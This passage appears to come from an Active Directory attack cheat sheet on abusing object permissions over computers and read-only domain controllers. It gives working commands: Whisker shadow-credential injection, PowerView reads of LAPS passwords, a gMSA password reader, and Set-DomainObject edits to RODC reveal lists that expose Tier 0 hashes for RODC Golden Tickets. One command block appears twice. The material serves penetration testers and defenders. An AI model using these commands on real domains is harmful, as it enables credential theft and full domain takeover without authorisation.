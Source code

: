 #### On a computer

**WriteProperty**

* ShadowCredentials

```powershell
Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:Password123!
```

* Kerberos RBCD

**AllExtendedRights**

* ReadLAPSPassword

```powershell
# With PowerView
Get-DomainComputer <target>.domain.local -Properties ms-mcs-AdmPwd,displayname,ms-mcs-AdmPwdExpirationTime
```

* ReadGMSAPassword

```powershell
./GMSAPasswordReader.exe --accountname gmsaAccount
```

#### On a RODC

**GenericWrite**

* Obtain local admin access

Change the `managedBy` attribute value and add a controlled user. He will automatically gain admin rights.

* Retrieve Tiers 0 account's NT hashes

It is possible to modify the `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` lists on the RODC to allow Tiers 0 accounts to authenticate, and then forge RODC Golden Tickets for them to access other parts of the AD.

```powershell
#Add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

**WriteProperty**

**WriteProperty** on the `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` lists is sufficient to modify them. Obtain the `krbtgt_XXXXX` key is still needed to forge RODC Golden Ticket.

```powershell
#Add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```
